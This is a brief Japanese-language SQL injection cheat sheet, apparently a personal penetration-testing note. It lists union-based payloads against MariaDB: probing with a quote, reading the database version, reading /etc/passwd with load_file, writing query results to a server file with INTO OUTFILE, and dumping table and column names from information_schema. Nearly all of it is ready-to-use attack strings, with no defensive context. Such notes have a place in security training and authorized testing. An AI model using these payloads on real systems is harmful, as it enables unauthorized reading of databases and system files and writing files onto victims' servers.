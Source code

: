 # SQLi

1. 入力値に`'`を入力してエラーの有無を検証
   1. エラーが帰らない場合もある。
   2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
   3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
   4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
   5. `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
   6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
